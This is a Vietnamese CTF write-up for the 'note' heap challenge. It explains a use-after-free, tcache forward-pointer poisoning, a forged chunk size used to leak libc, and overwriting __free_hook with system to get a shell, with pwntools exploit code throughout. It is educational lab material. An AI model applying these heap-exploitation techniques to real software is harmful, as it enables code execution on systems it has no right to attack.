# cnsc.uit.edu.vn - note

Link challenge gốc (closed, inactive): https://cnsc.uit.edu.vn/ctf/challenges

Các bạn có thể tải challenge ở ngay repo của mình: [note.zip](note.zip)

Challenge sẽ bao gồm 2 file:

- note

- libc.so.6

Các bạn tải về và patch file libc.so.6 vào file note bằng patchelf hoặc pwninit nhé. Và bây giờ chúng ta bắt đầu nào!

# 1. Tìm lỗi

Đầu tiên, dùng lệnh `file` để xem file thực thi có những gì:

```
note: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=74ab033b9c8965274ce9c660e0b1e41ef400fa53, for GNU/Linux 3.2.0, stripped
```

Đây là file 64-bit nhưng đã bị mã hóa code, khá khó cho việc định chương trình cũng như debug. Nhưng không sao, tiếp tục nào!

Kế tiếp, ta mở file trong ghidra để xem pseudocode. Không có gì thú vị, chỉ là tạo note với malloc(), xóa note với free(). Hãy xem kỹ hơn hàm xóa note:



Ta thấy sau khi free(), chương trình không xóa địa chỉ chunk mà pointer trỏ tới --> **Use After Free**. 

Ta cũng có thể thấy, ở hàm chỉnh sửa note, độ dài chuỗi ký tự của note sẽ được chỉnh sửa theo độ dài của chuỗi ký tự có sẵn:



Ta hãy nhớ điều này để tìm cách khai thác hợp lí.

# 2. Ý tưởng

Với những ai chưa có bất kì khái niệm gì về heap thì hãy đọc ở đây: [https://guyinatuxedo.github.io/25-heap/index.html](https://guyinatuxedo.github.io/25-heap/index.html)

- Kiến thức 1:

Đầu tiên ta tạo 2 chunk (chunk 1, chunk 2) với kích thước như sau:

```
| 0x420      | (chunk 1)
| 0x20       | (chunk 2)
| 0xffffffff | (wild chunk)
```

Chunk 2 được tạo để tránh sự hợp nhất giữa chunk chưa khởi tạo (wild chunk) với chunk 1 khi free chunk 1. Ở libc 2.27 trở lên sẽ có tcache với giá trị lưu trữ tối đa của tcache là 1024 byte. Vì thế ta tạo chunk 1 với kích thước lớn hơn 1024 byte để khi free chunk 1, chunk đó sẽ vào unsorted bin và giá trị main arena của libc cũng sẽ được ghi vào chunk 1. Và với **UAF**, ta sẽ có thể leak được địa chỉ đó.



- Kiến thức 2:

Với libc-2.27, ta vẫn sẽ có thể double free được. Nhưng từ libc-2.28 trở lên, ta không thể thực hiện double free.

- Ý tưởng 1:

Ta sẽ lợi dụng link list trong tcache và **UAF** để overwrite forward pointer của chunk đã free. Mục đích của việc overwrite forward pointer là khi malloc một chunk có kích thước giống với chunk đã free (chunk kích thước nhỏ, free xong vào tcache) thì sẽ trỏ về giá trị mà mình đã overwrite chứ ko phải giá trị cũ (do tính chất link list của tcache).

Bằng cách overwrite forward pointer, ta sẽ có thể trỏ forward pointer về heap metadata và chỉnh size thành kích thước lớn. Kế đến ta sẽ chèn thêm một chunk nhỏ vào sau chunk có kích thước lớn bên trên cũng bằng cách overwrite forward pointer để tránh bị hợp nhất giữa chunk đã free với chunk chưa khởi tạo (wild chunk). Sau đó ta sẽ free chunk có kích thước lớn đó để đưa địa chỉ libc main arean vào chunk. Cuối cùng ta dùng view note để leak giá trị đó ra.

Khi đã có địa chỉ leak, ta tính địa chỉ system và overwrite free_hook thành system cũng bằng cách overwrite forward pointer, và nhập chuỗi "/bin/sh" vào thêm một note. Khi xong việc, ta chỉ việc xóa note có chứa chuỗi "/bin/sh", tức là thực thi system("/bin/sh") và ta tạo được shell.

- Tổng kết:
  1. Overwrite heap metadata thành size lớn
  2. Thêm chunk nhỏ ngay sau chunk lớn
  3. Overwrite free_hook

# 3. Thực hiện

Do đặc thù challenge này không thể chỉ sử dụng gdb vì địa chỉ động. Vì thế ta sẽ kết hợp thêm pwntool để debug payload. Do đó, địa chỉ trong bài viết sẽ được thay đổi liên tục do mình phải thực thi nhiều lần để debug.

Để thuận tiện, ta tạo 4 hàm Add (Thêm Note), Edit (Sửa Note), View (Xem Note) và Delete (Xóa Note) trong file solve.py như sau:

```
def Add(index, size, context):
    # Context is byte
    p.sendline(b'1')
    p.recvuntil(b'Index: ')
    p.sendline('{}'.format(index).encode())
    p.recvuntil(b'Note size: ')
    p.sendline('{}'.format(size).encode())
    p.recvuntil(b'Content: ')
    p.send(context)
    p.recvuntil(b'> ')

def Edit(index, context):
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline('{}'.format(index).encode())
    p.recvuntil(b'Content: ')
    p.send(context)
    p.recvuntil(b'> ')

def View(index):
    p.sendline(b'3')
    p.recvuntil(b'Index: ')
    p.sendline('{}'.format(index).encode())
    return p.recvuntil(b'> ')

def Delete(index):
    p.sendline(b'4')
    p.recvuntil(b'Index: ')
    p.sendline('{}'.format(index).encode())
    p.recvuntil(b'> ')
```

- Bước 1: Overwrite heap metadata thành size lớn

Đầu tiên ta sẽ tạo 3 note (3 chunk) liên tiếp nhau để tránh sự hợp nhất giữa chunk 0 và chunk 2 khi free 2 chunk đó. Mục đích free chunk 0 và 2 là để lợi dụng link list trong tcache:

```
Add(0, 0x50, b'00000000')
Add(1, 0x50, b'11111111')
Add(2, 0x50, b'22222222')
```

Kế đến, ta sẽ free chunk 0 và 2:

```
Delete(0)
Delete(2)
```

Khi xóa chunk có kích thước nhỏ hơn 1024, chúng sẽ được đẩy vào trong tcache. Ở tcache, chương trình sẽ ghi địa chỉ forward pointer và backward pointer vào chunk đã free. Nhưng đối với chunk được free lần đầu, nó sẽ chỉ ghi địa chỉ backward pointer mà không có forward pointer.



Địa chỉ được tô màu hồng là forward pointer, màu xanh là backward pointer. Theo thứ tự thì ta free chunk 0 rồi tới chunk 2 nên khi nhìn vào tcache, ta sẽ thấy chunk 2 có forward pointer trỏ tới chunk 0 vì tính chất link list.

Vậy bây giờ ta sẽ ghi đè forward pointer ở chunk 2 để khi malloc lần nữa với kích thước 0x50 thì sẽ trỏ tới metadata của chunk 0 (Lưu ý: kích thước 0x50 và heap metadata của chunk là 0x10 nên tổng là 0x60. 0x61 là vì 1 byte đánh dấu là đang sử dụng)

```
Edit(2, b'\x90')
```

Tại sao ta đã free chunk 2 rồi nhưng còn ghi tiếp được? Thứ nhất, như ở trên ta tìm được bug **UAF**. Thứ hai, ở hàm edit note, nó sẽ kiểm tra độ dài của chuỗi ký tự có trong note rồi mới thực hiện việc ghi đè. 

Nếu ta chọn chunk 0, tức chương trình kiểm tra strlen(0x55d84e4dd2a0)=0, thì ta sẽ không nhập được bất kỳ giá trị nào. Vì vậy ta sẽ chọn chunk 2, vừa thỏa strlen(0x55d84e4dd360)=6 (độ dài byte của forward pointer) giúp ta ghi đè được, vừa thỏa vấn đề ta đang giải quyết: thay đổi forward pointer.



Sau khi ghi đè forward pointer trỏ về metadata của chunk 0, ta sẽ tiến hành malloc lại 2 chunk đã free ở tcache với index 3 và index 4 để thực hiện việc ghi đè metadata
```
Add(3, 0x50, b'33333333')
Add(4, 0x50, p64(0) + p64(0x421))
```
Index 3 sẽ lấy địa chỉ của chunk 2 và index 4 lúc này sẽ lấy địa chỉ tại metadata của chunk 0 là 0x55d84e4dd290 chứ không phải 0x55d84e4dd2a0 (Nhớ rằng ta vẫn chưa free chunk 0 nhé). Có được index 4, ta tiến hành thay đổi chunk size thành kích thước 0x420 và thêm 1 bit chứng tỏ đang sử dụng chunk



Ta đã thay đổi thành công (Do chạy lại nên địa chỉ đã thay đổi :3). index 3 và 4 sẽ không sử dụng lại nên ta chỉ cần nhớ index 0, 1, 2 là được. Sang tiếp bước 2.

- Bước 2: Thêm chunk nhỏ ngay sau chunk lớn

Với kích thước 0x420 là rất lớn, nhưng số lượng note lại giới hạn. Một lần nữa việc overwrite forward pointer sẽ giúp ích cho chúng ta.

Tuy nhiên, do địa chỉ heap là địa chỉ động. Tới đây ta sẽ tính toán dựa trên địa chỉ như bước 1, sau đó ta sẽ cho chương trình chạy đi chạy lại nhiều lần cho tới khi nó lặp lại đúng đoạn địa chỉ mà ta đang tính toán.

Để tính địa chỉ cho chunk nhỏ tiếp theo, ta chỉ đơn giản lấy địa chỉ heap metadata của chunk 0 cộng với 0x420 là sẽ biết được ta cần phải ghi metadata của chunk nhỏ vào địa chỉ nào:

```
0x55718f828290 + 0x420 = 0x55718f8286b0
```

Vậy ta chỉ việc ghi 2 byte cuối 0x86b0 vào forward pointer là được (Lưu ý ở đây ta sẽ mặc định tính toán theo địa chỉ bên trên, mặc kệ việc khi chạy lại chương trình thì địa chỉ chương trình thay đổi vì lát nữa ta sẽ brute force nên không cần quan tâm).

Xong bước 1, ta vẫn còn lại junk 1 chưa free và chunk 2 (cũng là chunk 3) được khởi tạo lại. Ta sẽ dùng cách tương tự bước 1 để overwrite forward pointer (Chạy lại lần nưa):

```
Delete(1)
Delete(2)

Edit(2, p16(0x86b0))
```

Tới đây, ta thấy code không add 2 byte đó vào. Tại sao lại như vậy? Hãy cùng xem stack dưới đây (Do chạy lại nên địa chỉ đã thay đổi):



Ta dự tính ghi đè vào chunk index 2, nhưng hãy nhìn kỹ vào giá trị đang lưu trữ tại địa chỉ chunk 2 (0x5575f7e0c360), strlen(0x5575f7e0c360)=0 vì ngay tại giá trị đầu của chuỗi ký tự 0x00005575f7e0c300 là null byte. Vậy ta hãy đổi thứ tự free thành junk 2 trước rồi tới junk 1 và edit forward pointer của junk 1 (Chạy lại chương trình):

```
Delete(2)
Delete(1)

Edit(1, p16(0x86b0))
```

Trước khi Edit:



Sau khi Edit:



Ta đã ghi đè thành công. Bây giờ là lúc ta sẽ brute force cho tới khi việc tạo 2 junk có kích thước 0x50 (như trên) không gặp lỗi (tức là địa chỉ heap hợp lệ sau khi overwrite forward pointer). Giả sử ta tạo junk thành công, payload ta cần ghi vào sẽ là khởi tạo của hai chunk (vì nếu chỉ ghi một chunk ngay sau chunk 0 thì khi free chunk 0 sẽ báo lỗi, có thể do không tìm thấy kích thước wild chunk)

Code sẽ được chỉnh lại như sau bao gồm cả bước 1 tới hiện tại:

```
while True:
    p = process('./note_patched')

    # Create 3 junks, the junk index=1 make sure there is not a heap consolidation
    # If input size is too small, our future payload may not be fit
    # If the address has null byte, strlen() will also end at null byte
    Add(0, 0x50, b'00000000')
    Add(1, 0x50, b'11111111')
    Add(2, 0x50, b'22222222')

    Delete(0)
    Delete(2)

    Edit(2, b'\x90')

    Add(3, 0x50, b'33333333')
    payload = p64(0) + p64(0x421)
    Add(4, 0x50, payload)

    Delete(2)
    Delete(1)

    Edit(1, p16(0x86b0))

    try:
        # After successfully add junk 6, we have a split between 
        # wild junk and the big junk with index 0
        Add(5, 0x50, b'55555555')
        payload = p64(0) + p64(0x21)        # Fake metadata of first chunk
        payload += p64(0)*2                 # Fake context
        payload += p64(0) + p64(0x21)       # Fake metadata of second chunk
        Add(6, 0x50, payload)
    except:
        p.close()
        continue
    input("GDB>")
```

Sau khi tạo thành công note index 6, chương trình vẫn có thể ở địa chỉ khác nên sẽ không tạo được chunk nhỏ ngay sau index 0 mà sẽ tạo tại địa chỉ đã được overwrite 2 byte cuối là 0x86b0



Nhìn hình ta thấy tại `gef➤  x/38xg 0x000055e249c90290` là index 0, 1, 2 và wild chunk nhưng khi ta cộng lên 0x420 thì không thấy đâu. Còn khi ta xét tại địa chỉ đã ghi đè 2 byte cuối `gef➤  x/10xg 0x000055e249c986b0` thì sẽ thấy được index 6 của ta sẽ nằm ở đó. Ta hãy thử xem khi free chunk 0 thì chuyện gì sẽ xảy ra:



Chương trình sẽ báo lỗi sigabrt ngay. Vậy nếu ta free chunk 0 thành công thì sẽ không báo lỗi. Vậy ta sẽ brute force tiếp cho tới khi ta xóa note 0 thành công. Code sẽ được thêm Delete(0) như sau:

```
while True:
    p = process('./note_patched')
    .
    .
    .
    try:
        # After successfully add junk 6, we have a split between 
        # wild junk and the big junk with index 0
        Add(5, 0x50, b'55555555')
        payload = p64(0) + p64(0x21)        # Fake metadata of first chunk
        payload += p64(0)*2                 # Fake context
        payload += p64(0) + p64(0x21)       # Fake metadata of second chunk
        Add(6, 0x50, payload)

        # Thêm ở đây
        Delete(0)
    except:        p.close()
        continue
    input("GDB>")
```

Khi chạy thành công, ta sẽ có thể thấy chunk nhỏ đã được tạo ngay sau chunk 0:



Lúc này, chunk index 6 sẽ đóng vai trò như wild junk (chương trình sẽ hiểu như vậy). Ta cũng có thể thấy rằng, sau khi free 1 chunk lớn vào unsorted bin, chương trình sẽ ghi địa chỉ libc main arean vào. Ta sẽ sử dụng bug **UAF** để leak địa chỉ đó ra:

```
View(0)
```

Vậy là ta đã leak địa chỉ thành công! Cùng chuyển sang bước cuối nào.

- Bước 3: Overwrite free_hook

Khi đã có địa chỉ leak, ta chỉ việc tính toán địa chỉ libc_base, free_hook và system.
```
leak_addr = u64(View(0).split(b': ')[1].split(b'\n')[0] + b'\x00'*2)
libc_base = leak_addr - 0x1ebbe0        # Dùng GDB và lấy leak_address - libc_base sẽ ra offset
__free_hook_offset = libc.symbols['__free_hook']
__free_hook_addr = libc_base + __free_hook_offset
system_offset = libc.symbols['system']
system_addr = libc_base + system_offset
```

Tại sao ta cần tính địa chỉ của free_hook? Vì ta sẽ overwrite giá trị của free_hook thành địa chỉ system để khi thực thi hàm free(), ta sẽ gọi được tới system. Tương tự như trên, ta vẫn sẽ overwrite forward pointer để ghi đè:

```
Delete(2)
Delete(1)

Edit(1, p64(__free_hook_addr))
```

Và ta chỉ việc tạo 2 note, note đầu sẽ chứa chuỗi "/bin/sh" (vì tạo lần đầu sẽ vẫn trỏ vào địa chỉ heap bình thường). Note thứ 2 (đã trỏ về địa free_hook) ta sẽ ghi địa chỉ system vào:

```
Add(7, 0x50, b'/bin/sh\x00')
Add(8, 0x50, p64(system_addr))
```

Cuối cùng, ta chỉ việc xóa note với index 7 đi là xong:

```
p.sendline(b'4')
p.recvuntil(b'Index: ')
p.sendline(b'7')
```

# 4. Lấy cờ

Đây là full source code: [solve.py](solve.py)

Do mình thực hiện writeup này lúc server đã down nên không có minh chứng về việc kết nối. Vì thế mình sẽ chạy trên local của mình nhé.


